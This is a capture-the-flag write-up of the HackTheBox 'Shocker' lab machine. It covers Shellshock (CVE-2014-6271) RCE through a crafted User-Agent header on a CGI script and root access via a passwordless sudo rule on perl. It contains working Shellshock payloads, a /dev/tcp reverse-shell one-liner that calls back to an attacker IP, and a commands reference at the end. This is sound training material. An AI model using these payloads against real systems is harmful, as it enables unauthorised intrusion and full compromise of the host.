




# HackTheBox - Shocker



Linux web box, a CGI shell script (`user.sh`) sitting in `/cgi-bin/` is backed by a vulnerable Bash, so a crafted HTTP header triggers Shellshock (CVE-2014-6271) for RCE. Privesc is a passwordless `sudo` rule on `perl`, abused straight from GTFOBins.

`linux` `web` `cgi` `shellshock` `cve-2014-6271` `sudo` `gtfobins` `privesc`

## Overview

| Field          | Details |
| -------------- | ------- |
| **Machine**    | Shocker |
| **OS**         | Linux   |
| **Difficulty** | Easy    |

## TL;DR

- `ffuf` finds a 403 on `/cgi-bin/` → fuzz inside it with `.sh`/`.cgi`/`.pl` extensions → `user.sh`
- `user.sh` is a CGI script backed by a vulnerable Bash → Shellshock (CVE-2014-6271) via a crafted `User-Agent` header → RCE as `shelly`
- Reverse shell → `user.txt`
- `sudo -l` shows `shelly` can run `/usr/bin/perl` as root, no password → GTFOBins → `sudo perl -e 'exec "/bin/bash"'` → root

## Tools Used

nmap, ffuf, curl, netcat, python3 (pty), perl (GTFOBins)

## Setup / Notes

```bash
echo "10.129.29.28 shocker.htb" | sudo tee -a /etc/hosts
```

---

## Recon

Full port scan with my own wrapper: `nmapfullscan 10.129.29.28 --profile fast` (https://github.com/Certifa/nmapfullscan)

```
🔎 Detailed scan on open TCP-ports: 80,2222

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256  22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256  e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two services: Apache on 80 and OpenSSH 7.2p2 on the non-standard port 2222. UDP top-100 returned nothing useful.

The old OpenSSH version (7.2p2) is vulnerable to username enumeration. I explored CVE-2016-6210 (timing-based) and CVE-2018-15473 (paramiko auth-logic based) here. Both work, but neither is needed to progress: Shellshock on the web service gives a foothold directly, and once you have a shell you can read `/etc/passwd` with zero ambiguity. Noting the SSH detour honestly because it's a tempting rabbit hole that isn't the intended path.

Port 80 has no hostname in the response, so I added the IP to `/etc/hosts` as `shocker.htb`.

## Enumeration



The index page source has nothing useful, just a bug image and a "Don't Bug Me!" heading:

```html
<!DOCTYPE html>
<html>
<body>
<h2>Don't Bug Me!</h2>

</body>
</html>
```

### Directory fuzzing

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://shocker.htb/FUZZ -c
```

```
cgi-bin/       [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html     [Status: 200, Size: 137, Words: 9,  Lines: 10]
server-status  [Status: 403, Size: 299, Words: 22, Lines: 12]
.htaccess      [Status: 403, ...]
.htpasswd      [Status: 403, ...]
```

The 403 on `cgi-bin/` is easy to skim past and dismiss, but it's exactly what's worth digging into. `cgi-bin` (Common Gateway Interface Binary) is a traditional folder for executable scripts on a web server. The directory 403s because listing is disabled, but scripts *inside* it can still be reachable.

### Fuzzing for scripts

```bash
ffuf -u http://10.129.29.28/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .sh,.cgi,.pl -mc 200,403
```

```
user.sh   [Status: 200, Size: 119, Words: 19, Lines: 8]
```

A hit, `user.sh`. Requesting it returns real output, so it executes:

```bash
curl http://shocker.htb/cgi-bin/user.sh
```

```
Content-Type: text/plain

Just an uptime test script

 15:44:57 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
```

---

## Foothold —> Shellshock (CVE-2014-6271)

### Why it's vulnerable

Because `user.sh` is a CGI script, Apache converts every incoming HTTP header into an environment variable before running the script (`User-Agent` → `HTTP_USER_AGENT`, etc.), that's standard CGI behaviour.

The bug is in Bash itself. When Bash starts up it scans the environment, and if a variable's value looks like an exported function (`() { ... }`), it parses and defines it. In vulnerable versions, Bash doesn't stop parsing after the function body closes, it keeps going and **executes anything appended after it**, immediately, before the actual script runs.

Put together: Apache runs a fresh Bash process to execute `user.sh` on every request, and that Bash inherits our attacker controlled header as an env var. So a crafted `User-Agent` value gets executed by Bash before `user.sh`'s own code runs. The vulnerability isn't in `user.sh` at all, it's in the interpreter that runs it.

### Proving RCE

```bash
curl -H 'User-Agent: () { :; }; echo; echo; /bin/bash -c "id"' http://shocker.htb/cgi-bin/user.sh
```

```
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
Breaking down the payload:

- `() { :; }` —> an empty, do nothing function. It's the bait: Bash recognises the `() { ... }` shape in an env var and enters the vulnerable function-parsing path. Without it, the payload is just an inert string.
- `;` —> the exact spot where patched Bash stops and vulnerable Bash keeps executing.
- `echo; echo;` — prints blank lines so our output doesn't collide with the CGI response headers. **This matters in practice:** running the command bare (e.g. just `id` with no `/bin/bash -c` wrapper) returned a 500 Internal Server Error, because the command's output corrupted the CGI header/body structure Apache expects. The wrapper + echoes keep the response valid.
- `/bin/bash -c "id"` —> the command we actually want run on the server.

### Reverse shell

Swapping `id` for a reverse shell one-liner (generated at https://www.revshells.com/):

```bash
# listener on attack box
nc -lvnp 4444

# trigger
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "sh -i >& /dev/tcp/YOUR-IP/4444 0>&1"' http://shocker.htb/cgi-bin/user.sh
```

Upgrade the dumb shell to a proper TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, then on attack box: stty raw -echo; fg
```



`user.txt` is in `/home/shelly`.

---

## Privilege Escalation —> sudo/perl

First move on any Linux box: `sudo -l`.

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

`shelly` can run `/usr/bin/perl` as root with no password.

### Why it works

Perl isn't a shell, but it can *execute arbitrary commands*, including spawning one. Checking GTFOBins (https://gtfobins.org/gtfobins/perl/) confirms the sudo abuse: `perl -e 'exec "/bin/sh"'`. Since `sudo` launches Perl as root, the shell Perl spawns inherits root. The vulnerability isn't in Perl, it's in the sudo rule that grants a command capable interpreter root access without restriction.

I'm on bash rather than sh, so:

```bash
sudo perl -e 'exec "/bin/bash"'
id
# uid=0(root) gid=0(root) groups=0(root)
```



`root.txt` is in `/root`.


---

## Lessons Learned

- **403 isn't a dead end.** A forbidden directory (`cgi-bin/`) still hides reachable scripts inside it, always fuzz deeper with relevant extensions (`.sh`, `.cgi`, `.pl`).
- **Shellshock targets the interpreter, not the script.** Any CGI script backed by a vulnerable Bash is exploitable, regardless of what the script actually does, because the injection fires during Bash's environment parsing.
- **Theoretical vs. practical payloads differ.** The minimal trigger is `() { :; };`, but reliable output through CGI needed the `/bin/bash -c` wrapper, bare commands 500'd on the CGI output format.
- **`sudo -l` → GTFOBins is a reflex.** Any binary listed there with a sudo entry that can spawn a shell is very likely your privesc. This single habit roots a large share of easy/medium boxes.
- **Don't over engineer the path.** The SSH user enumeration CVEs were real but unnecessary; Shellshock was the direct route. Recognising the intended path saves time.

## Commands Reference

```bash
# Recon
nmapfullscan 10.129.29.28 --profile fast
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://shocker.htb/FUZZ -c
ffuf -u http://10.129.29.28/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .sh,.cgi,.pl -mc 200,403

# Foothold (Shellshock)
curl -H 'User-Agent: () { :; }; echo; echo; /bin/bash -c "id"' http://shocker.htb/cgi-bin/user.sh
nc -lvnp 4444
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "sh -i >& /dev/tcp/10.10.15.159/4444 0>&1"' http://shocker.htb/cgi-bin/user.sh

# Shell upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

# Privesc
sudo -l
sudo perl -e 'exec "/bin/bash"'
```

## References

- [Shellshock —> CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
- [GTFOBins —> perl](https://gtfobins.org/gtfobins/perl/)
